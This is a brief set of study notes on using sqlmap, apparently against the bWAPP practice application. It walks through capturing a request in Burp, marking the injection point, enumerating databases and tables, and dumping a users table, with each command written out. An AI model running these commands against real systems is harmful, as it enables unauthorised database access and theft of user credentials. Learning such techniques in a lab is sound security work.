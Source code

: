 ## using sqlmap
1. Get an error and intrecept the traffic using burp
2. Copy the request to afile
3. After title replace the ' with *
4. Execute sqlmap - sqlmap -r myreq.txt
5. Chek the output in /root/.sqlmap/output/localhost/log
6. Enumerate all the databases - sqlmap -r myreq.txt --dbs
7. Enumerate all the tables - sqlmap -r myreq.txt --dbs --tables
8. Dump all the users from a specific table into a dump file - sqlmap -r myreq.txt
    -D bWAPP -T users --dump